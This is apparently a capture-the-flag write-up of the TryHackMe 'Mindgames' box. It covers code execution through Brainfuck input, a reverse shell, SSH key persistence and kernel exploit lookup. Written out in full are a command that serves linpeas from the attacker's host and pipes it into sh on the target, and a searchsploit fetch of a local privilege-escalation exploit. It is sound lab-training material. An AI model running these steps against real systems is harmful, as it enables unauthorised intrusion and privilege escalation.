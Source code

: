 This is a writeup for the Box Mindgames on TryHackMe.


We are greeted by this webpage:

[![https://imgur.com/qYX6ZrS.png](https://imgur.com/qYX6ZrS.png)](https://imgur.com/qYX6ZrS.png)


There we can see some weird cryptic characters.

Luckily i saw it before and knew it is brainfuck code.

I used https://copy.sh/brainfuck/text.html to start playing arround with someoutput.

It seems like the code is executed in python so we can try something like a simple ls:

[![https://imgur.com/hBHedq9.png](https://imgur.com/hBHedq9.png)](https://imgur.com/hBHedq9.png)

It works!

[![https://imgur.com/Ix7XilL.png](https://imgur.com/Ix7XilL.png)](https://imgur.com/Ix7XilL.png)

Now lets try to search arround for hints / something interesting.

After searching arround i didn't find anything so i though the best way is to get a reverseshell.
I tried to copy paste one from PayloadsAllTheThings but it didn't work. (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
Took me a few min to realize that i have to adjust it because we don't need to tell the programm to run python we can just start at the import statement:

[![https://imgur.com/nbwFn9z.png](https://imgur.com/nbwFn9z.png)](https://imgur.com/nbwFn9z.png)

Now we are in!

[![https://imgur.com/q5JEsep.png](https://imgur.com/q5JEsep.png)](https://imgur.com/q5JEsep.png)

Lets find the userflag and a way to advance ! 

I found the userflag yaaay i am not going to tell you where but its not hidden.

Next i made a .ssh directory generated ssh keypair with sshkeygen and added the pubkey in the authorized file i created copyed the private key to my host machine and logged into ssh with the -i option for private key.

[![https://imgur.com/hGxHijO.png](https://imgur.com/hGxHijO.png)](https://imgur.com/hGxHijO.png)

Now on my hostmachine i already have linpeas.sh downloaded so i set up a http.server with python:

python3 -m http.server 10000

On the target in the /tmp directory we can get the file now with wget and execute it:

wget http://ip:10000/linpeas.sh | sh

We find something interesting.

[![https://imgur.com/qTykJym.png](https://imgur.com/qTykJym.png)](https://imgur.com/qTykJym.png)

[![https://imgur.com/fG0YCF6.png](https://imgur.com/fG0YCF6.png)](https://imgur.com/fG0YCF6.png)

Check kernel version:

[![https://imgur.com/e40xsCU.png](https://imgur.com/e40xsCU.png)](https://imgur.com/e40xsCU.png)

searchsploit with the kernel version gives us this beauties to check:

[![https://imgur.com/9wYBWI4.png](https://imgur.com/9wYBWI4.png)](https://imgur.com/9wYBWI4.png)

Lets try them out:

You can use searchsploit -m to download:
searchsploit -m linux/local/47164.sh


